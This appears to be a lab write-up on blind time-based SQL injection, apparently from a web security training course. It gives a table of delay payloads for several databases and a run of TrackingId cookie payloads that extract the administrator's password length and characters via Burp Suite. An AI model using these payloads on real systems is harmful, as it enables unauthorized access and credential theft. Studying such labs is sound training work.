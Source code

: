 
# Lab: Blind SQL injection with time delays and information retrieval

| DATABASE                                         | SQL                                    |
| ------------------------------------------------ | -------------------------------------- |
| use a true statement to trigger the delay:       |
| Microsoft SQL Server                             | `'; IF (1=1) WAITFOR DELAY '0:0:10'--` |
| PostgreSQL database                              | `'; IF (1=1) SELECT pg_sleep(10)--`    |
| MySQL                                            | `'; IF (1=1) SELECT sleep(10)--`       |
| just be able to concat nothing to sleep command: |
| Microsoft SQL Server                             | `' + WAITFOR DELAY '0:0:10'--`         |
| PostgreSQL database                              | `' || pg_sleep(10)--`                  |
| MySQL                                            | `' || sleep(10)--`                     |



```py
# Visit the front page of the shop
# use Burp Suite to intercept and modify the request containing the TrackingId cookie.

TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
# Verify that the application takes 10 seconds to respond.

TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
# Verify that the application responds immediately with no time delay.
# This demonstrates how you can test a single boolean condition and infer the result.


TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
# Verify that the condition is true, confirming that there is a user called administrator.


# The next step is to determine how many characters are in the password of the administrator user.
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
# This condition should be true, confirming that the password is greater than 1 character in length.
# Send a series of follow-up values to test different password lengths.
# do this manually using Burp Repeater. When the condition stops being true (i.e. when the application responds immediately without a time delay), determined the length of the password (20 characters)


# to test the character at each position to determine its value.
# Burp Intruder.
# Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
TrackingId=x'+SELECT+CASE+WHEN+(username='administrator'+AND+substring(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
# This uses the substring() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
# Place payload position markers around the a character in the cookie value. click the "Add §" button.
TrackingId=x'+SELECT+CASE+WHEN+(username='administrator'+AND+substring(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```
